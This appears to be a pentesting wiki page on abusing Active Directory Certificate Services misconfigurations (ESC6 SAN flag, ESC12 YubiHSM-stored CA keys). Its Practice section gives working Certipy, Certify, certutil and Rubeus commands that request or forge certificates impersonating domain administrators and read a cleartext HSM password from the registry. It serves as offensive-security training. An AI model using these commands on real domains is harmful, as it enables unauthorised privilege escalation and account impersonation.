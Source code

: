 ```yaml
---
authors: BlWasp, ShutdownRepo, sckdev, RemiEC
category: ad
---
```


# Certificate authority

## Theory

### Certificate Authority misconfiguration

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) found a domain escalation vector based on a dangerous CA setting (i.e. the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag). The escalation vector was dubbed [ESC6](https://posts.specterops.io/certified-pre-owned-d95910965cd2#2a56).

When the flag is set on the CA, templates configured for authentication (i.e. EKUs like Client Authentication, PKINIT Client Authentication, Smart Card Logon, Any Purpose (`OID 2.5.29.37.0`), or no EKU (`SubCA`)) and allowing low-priv users to enroll can be abused to authenticate as any other user/machine/admin.

> [!SUCCESS]
> The default User template checks all the template requirements stated above.
>
> If the CA is configured with the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (admins tend to enable that flag without knowing the security implications), and the User template is enabled (which is very often), any user can escalate to domain admin.

> [!CAUTION]
> [May 2022 security updates](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923) broke the ESC6 attack.


### YubiHSM Key Storage Provider

As described by [Hans-Joachim Knobloch](https://twitter.com/hajoknobloch) in his article [ESC12 – Shell access to ADCS CA with YubiHSM](https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm), administrators may configure the Certificate Authority to store its private key on an external device like "Yubico YubiHSM2", over storing it in the software storage.

This is a USB device connected to the CA server via a USB port, or a USB device server in case of the CA server is a virtual machine. 

> In order to generate and use keys in the YubiHSM, the Key Storage Provider must use an authentication key (sometimes dubbed "password"). This key/password is stored in the registry under `HKEY_LOCAL_MACHINE\SOFTWARE\Yubico\YubiHSM\AuthKeysetPassword` in cleartext. 
>  
> Furthermore, the YubiHSM Key Storage Provider does not check under which user account processes calling it via CNG are running.
>
> ([Hans-Joachim Knobloch](https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm))

## Practice

### (ESC6) `EDITF_ATTRIBUTESUBJECTALTNAME2`

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate info about the CAs, including the "User Specified SAN" flag state which is an alias to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.

```bash
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -stdout | grep "User Specified SAN"
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.

Once the right template is found (i.e. the default User template) ([how to enumerate](./#attack-paths)), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```bash
# To specify a user account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

# To specify a computer account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.


=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including the "UserSpecifiedSAN" flag state which refers to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.

```powershell
Certify.exe cas
```

If the flag is enabled on a CA, certify can then be used to find all enabled templates configured with EKUs allowing for authentication, and allowing low-priv users to enroll.

```powershell
Certify.exe /enrolleeSuppliesSubject
Certify.exe /clientauth
```

Once the right template is found (i.e. the default User template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```powershell
Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

:::


### (ESC12) Shell access to ADCS CA with YubiHSM 

#### Redirect the USB device server

::: tabs

=== UNIX-like

At the time of writing, no solution exists to perform this attack from a UNIX-like machine.


=== Windows

From a Windows machine, if the YubiHSM device is connected through a USB device server, with sufficient administrative access to this server it could be possible to redirect the YubiHSM connection to a controlled machine.

Read the password value in the `HKEY_LOCAL_MACHINE\SOFTWARE\Yubico\YubiHSM\AuthKeysetPassword` registry key, and configure it in the controlled server registry.

Then, find a way to configure the USB device server to connect to the attacker controlled server. For this step, the different tasks to perform may vary between the USB device server solutions in use.

> [!DANGER]
> Generally USB device server solutions can't connect the device to multiple systems at once. If the device is disconnected from the CA server, the CA will stop working.

:::


#### Forge a certificate

If the CA's private key is stored on a physical USB device such as "YubiHSM2", and a shell access is obtained on the PKI server (even with low privileges), it is possible to modify and sign new certificates.  
This can be used to replicate an ESC1 abuse path and impersonate privileged users.

::: tabs

=== UNIX-like

At the time of writing, no solution exists to perform this attack from a UNIX-like machine.


=== Windows

Retrieve a valid certificate  :
```powershell
certipy req -target dc-esc.esc.local -dc-ip 10.10.10.10 -u "user_esc12@esc.local" -p 'P@ssw0rd' -template User -ca <CA-Common-Name>
certipy cert -pfx user_esc12.pfx -nokey -out user_esc12.crt
certipy cert -pfx user_esc12.pfx -nocert -out user_esc12.key
```

From a Windows machine, as a low privileged user connected into the CA server, obtain the CA certificate (it is public) and import it to the user store:

```powershell
certutil -addstore -user my ./root-ca.cer
```

Next, the certificate must be associated to the private key in the YubiHSM2 device:

```powershell
certutil -csp "YubiHSM Key Storage Provider" -repairstore -user my <CA-Common-Name>
```

> [!TIP]
> Ignore any `CRYPT_E_EXISTS` error at this point.

Use the CA certificate and its private key with the [`certutil -sign`](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/certutil#-sign) command to forge new arbitrary certificates.

```powershell
certutil -sign ./user_esc12.crt new.crt @extension.inf
```

The following `.inf` file can be used to add a custom `SubjectAltName`, similarly to the ESC1 abuse.

```powershell
[Extensions]
2.5.29.17 = "{text}"
_continue_ = "UPN=Administrator@esc.local&"
```
Finally, recreate the PFX file and use it to retrieve a TGT as a privileged user.

```powershell
openssl.exe pkcs12 -export -in new.crt -inkey user_esc12.key -out user_esc12_Administrator.pfx

Rubeus.exe asktgt /user:Administrator /certificate:user_esc12_Administrator.pfx /domain:esc.local /dc:192.168.1.2 /show /nowrap
```


:::


## Resources

[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

[https://www.keyfactor.com/blog/hidden-dangers-certificate-subject-alternative-names-sans](https://www.keyfactor.com/blog/hidden-dangers-certificate-subject-alternative-names-sans)

[https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6)

[https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm](https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm)

[https://connect.ed-diamond.com/misc/mischs-031/exploitation-de-l-ad-cs-esc12-esc13-et-esc14](https://connect.ed-diamond.com/misc/mischs-031/exploitation-de-l-ad-cs-esc12-esc13-et-esc14)
